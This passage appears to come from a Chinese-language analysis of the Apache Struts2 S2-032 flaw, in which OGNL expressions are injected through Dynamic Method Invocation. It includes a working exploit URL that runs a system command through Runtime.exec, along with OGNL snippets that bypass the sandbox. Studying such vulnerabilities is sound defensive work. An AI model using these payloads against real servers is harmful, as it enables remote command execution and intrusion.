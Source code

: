 在配置了 Struts2 DMI 为 True 的情况下，可以使用 `method:<name>` Action 前缀去调用声明为 public 的函数，DMI 的相关使用方法可参考官方介绍（[Dynamic Method Invocation](https://struts.apache.org/docs/action-configuration.html#ActionConfiguration-DynamicMethodInvocation)），这个 DMI 的调用特性其实一直存在，只不过在低版本中 Strtus2 不会对 `name` 方法值做 OGNL 计算，而在高版本中会，代码详情可参考阿尔法实验室的报告 - [《Apache Struts2 s2-032技术分析及漏洞检测脚本》](http://blog.topsec.com.cn/ad_lab/apache-structs2-s2-032%E6%8A%80%E6%9C%AF%E5%88%86%E6%9E%90%E5%8F%8A%E6%BC%8F%E6%B4%9E%E6%A3%80%E6%B5%8B%E8%84%9A%E6%9C%AC/)

要成功利用必须要开 DMI 才可以：

```xml
<constant name="struts.enable.DynamicMethodInvocation" value="true" />
```

找到目标应用有效的 Action 例如 `index.action`，那么直接使用 DMI 在 `method:` 后面带上需要执行 OGNL 表达式即可（注意转义）：

    http://localhost:8080/S2-032/default.action?method:%23_memberAccess%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%2C%23f%3D@java.lang.Runtime@getRuntime%28%29.exec%28%23parameters.cmd%5B0%5D%29%2C%23f.close&cmd=open%20%2fApplications%2fCalculator.app

这里需要注意的是后端会获取 `name` 值后拼接 `"()"` 形成 `name()` 然后再去执行 OGNL 表达式。

（在测试的时候，对比了前后几个版本的 Payload，发现这里并不用去修改什么安全参数就能够执行命令了，我表示对此有点不解。并且在公开的 PoC 中出现了 `#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS` 这个表达式，如果不附上会因为字符检查而执行失败，这一点是为了绕沙盒，但具体代码细节还是不太清楚）

### 比较关键的 OGNL 表达式

获取当前请求参数值（e.g. `http://www.example.com/index.action?a=222&b=333`）：

    #parameters.a[0]  // a = 222
    
获取当前 Response 对象，用于输出字符串到当前访问页面：

    #response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println("HelloWorld!"),#response.flush(),#response.close()
    
利用 Java 反射机制修改 `#_memberAccess['allowStaticMethodAccess']`：

    #context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true)

### 参考

* [http://www.cnblogs.com/LittleHann/p/4606891.html](http://www.cnblogs.com/LittleHann/p/4606891.html)
* [http://www.pwntester.com/blog/2014/01/21/struts-2-devmode-an-ognl-backdoor/](http://www.pwntester.com/blog/2014/01/21/struts-2-devmode-an-ognl-backdoor/)
* [http://drops.wooyun.org/papers/902](http://drops.wooyun.org/papers/902)
* [http://blog.topsec.com.cn/ad_lab/apache-structs2-s2-032技术分析及漏洞检测脚本/](http://blog.topsec.com.cn/ad_lab/apache-structs2-s2-032技术分析及漏洞检测脚本/)
